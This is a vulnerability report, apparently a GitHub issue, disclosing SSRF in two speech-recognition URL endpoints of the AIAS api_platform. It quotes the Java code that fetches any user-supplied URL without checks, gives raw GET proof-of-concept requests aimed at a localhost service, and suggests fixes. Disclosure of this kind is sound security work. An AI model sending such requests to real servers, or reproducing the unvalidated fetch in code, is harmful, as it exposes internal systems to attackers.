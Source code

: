 There are SSRF vulnerabilities in two APIs of AIAS subsystem api_platform

# Vulnerability Description

The open source Java AI one-stop solution project "[mymagicpower/AIAS](https://github.com/mymagicpower/AIAS)" has two APIs in the subsystem "api_platform" that have SSRF vulnerabilities.

- Vulnerability Discloser: [Tr0e](https://github.com/Tr0e)

- Vendors:  [http://aias.top/](http://aias.top/)

- Source code address：[https://github.com/mymagicpower/AIAS](https://github.com/mymagicpower/AIAS)

Note:  **This vulnerability was discovered automatically by my AI code audit tool**.

# Vulnerability Analysis

The vulnerability code entry point is located at：

[3_api_platform/api-platform/src/main/java/top/aias/platform/controller/AsrController.java](https://github.com/mymagicpower/AIAS/blob/main/3_api_platform/api-platform/src/main/java/top/aias/platform/controller/AsrController.java)

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
    @ApiOperation(value = "英文长语音识别-URL")
    @GetMapping(value = "/enAsrForLongAudioUrl", produces = "application/json;charset=utf-8")
    public ResultBean enAsrForLongAudioUrl(@RequestParam(value = "url") String url) {
        Path tempAudioFilePath = null;
        Path tempConvertedAudioFilePath = null;
        try {
            // 解析文件扩展名
            String fileExtension = FileUtils.getFileExtension(url);

            // 下载音频文件
            String tempFileName = UUID.randomUUID() + "." + fileExtension;
            tempAudioFilePath = Files.createTempFile("audio_", tempFileName);

            try (InputStream inputStream = new URL(url).openStream()) {
                Files.copy(inputStream, tempAudioFilePath, StandardCopyOption.REPLACE_EXISTING);
            }

            System.out.println("File saved at: " + tempAudioFilePath);

            if (!"wav".equalsIgnoreCase(fileExtension)) {
                tempFileName = UUID.randomUUID() + ".wav";
                tempConvertedAudioFilePath = Files.createTempFile("audio_", tempFileName);
                AudioUtils.convert(tempAudioFilePath.toString(), tempConvertedAudioFilePath.toString());
            } else {
                tempConvertedAudioFilePath = Paths.get(tempAudioFilePath.toString());
            }

            // 进行音频转录操作
            String texts = asrService.longSpeechToText(tempConvertedAudioFilePath, false);

            return ResultBean.success().add("result", texts);

        } catch (IOException e) {
            logger.error(e.getMessage(), e);
            return ResultBean.failure().add("message", "下载或处理音频文件时发生错误: " + e.getMessage());
        } catch (TranslateException e) {
            logger.error(e.getMessage(), e);
            return ResultBean.failure().add("message", "语音识别失败: " + e.getMessage());
        } catch (ModelException e) {
            logger.error(e.getMessage(), e);
            e.printStackTrace();
            return ResultBean.failure().add("message", e.getMessage());
        } finally {
            // 删除临时文件
            if (tempAudioFilePath != null) {
                try {
                    Files.deleteIfExists(tempAudioFilePath);
                } catch (IOException e) {
                    logger.warn("无法删除临时文件: " + tempAudioFilePath, e);
                }
            }
            // 删除临时文件
            if (tempConvertedAudioFilePath != null) {
                try {
                    Files.deleteIfExists(tempConvertedAudioFilePath);
                } catch (IOException e) {
                    logger.warn("无法删除临时文件: " + tempConvertedAudioFilePath, e);
                }
            }
        }
    }

    @ApiOperation(value = "中文长语音识别-URL")
    @GetMapping(value = "/zhAsrForLongAudioUrl", produces = "application/json;charset=utf-8")
    public ResultBean zhAsrForLongAudioUrl(@RequestParam(value = "url") String url) {
        Path tempAudioFilePath = null;
        Path tempConvertedAudioFilePath = null;
        try {
            // 解析文件扩展名
            String fileExtension = FileUtils.getFileExtension(url);

            // 下载音频文件
            String tempFileName = UUID.randomUUID() + "." + fileExtension;
            tempAudioFilePath = Files.createTempFile("audio_", tempFileName);

            try (InputStream inputStream = new URL(url).openStream()) {
                Files.copy(inputStream, tempAudioFilePath, StandardCopyOption.REPLACE_EXISTING);
            }

            System.out.println("File saved at: " + tempAudioFilePath);

            if (!"wav".equalsIgnoreCase(fileExtension)) {
                tempFileName = UUID.randomUUID() + ".wav";
                tempConvertedAudioFilePath = Files.createTempFile("audio_", tempFileName);
                AudioUtils.convert(tempAudioFilePath.toString(), tempConvertedAudioFilePath.toString());
            } else {
                tempConvertedAudioFilePath = Paths.get(tempAudioFilePath.toString());
            }

            // 进行音频转录操作
            String texts = asrService.longSpeechToText(tempConvertedAudioFilePath, true);

            return ResultBean.success().add("result", texts);

        } catch (IOException e) {
            logger.error(e.getMessage(), e);
            return ResultBean.failure().add("message", "下载或处理音频文件时发生错误: " + e.getMessage());
        } catch (TranslateException e) {
            logger.error(e.getMessage(), e);
            return ResultBean.failure().add("message", "语音识别失败: " + e.getMessage());
        } catch (ModelException e) {
            logger.error(e.getMessage(), e);
            e.printStackTrace();
            return ResultBean.failure().add("message", e.getMessage());
        } finally {
            // 删除临时文件
            if (tempAudioFilePath != null) {
                try {
                    Files.deleteIfExists(tempAudioFilePath);
                } catch (IOException e) {
                    logger.warn("无法删除临时文件: " + tempAudioFilePath, e);
                }
            }
            // 删除临时文件
            if (tempConvertedAudioFilePath != null) {
                try {
                    Files.deleteIfExists(tempConvertedAudioFilePath);
                } catch (IOException e) {
                    logger.warn("无法删除临时文件: " + tempConvertedAudioFilePath, e);
                }
            }
        }
    }
```

It can be seen that the two external APIs "/enAsrForLongAudioUrl" and "/zhAsrForLongAudioUrl" receive the URL parameters passed from the outside, and directly initiate an http request to the target URL through "new URL(url).openStream()" without any verification or filtering, which constitutes a typical SSRF vulnerability.

SSRF (Server-Side Request Forgery) vulnerabilities can allow attackers to access internal systems, services, or sensitive data by exploiting the server's ability to make unauthorized external requests, potentially leading to information disclosure, unauthorized access, or further exploitation within the network.

# Vulnerability Verification

Please first build the project local environment according to the steps provided by the project source code author in the Readme file.

The vulnerability proof of concept (POC) is as follows:

```js
GET /api/asr/enAsrForLongAudioUrl?url=http://127.0.0.1:9000/test.txt HTTP/1.1
Host: 127.0.0.1:8089
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i 


GET /api/asr/zhAsrForLongAudioUrl?url=http://127.0.0.1:9000/test.txt HTTP/1.1
Host: 127.0.0.1:8089
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The relevant verification screenshots are shown below:
![image](https://github.com/user-attachments/assets/5011e0e1-2e17-46ea-84c6-731c68dd67eb)
![image](https://github.com/user-attachments/assets/d39b4016-5627-4cd5-8146-8b0989b3e9b9)


# Security Suggestions

To fix SSRF (Server-Side Request Forgery) vulnerabilities, validate and sanitize all user-supplied input used in HTTP requests, restrict server access to trusted internal resources by implementing proper whitelisting or IP filtering, use secure coding practices to prevent unintended outbound requests, and consider proxying external requests through a controlled intermediary with appropriate access controls.
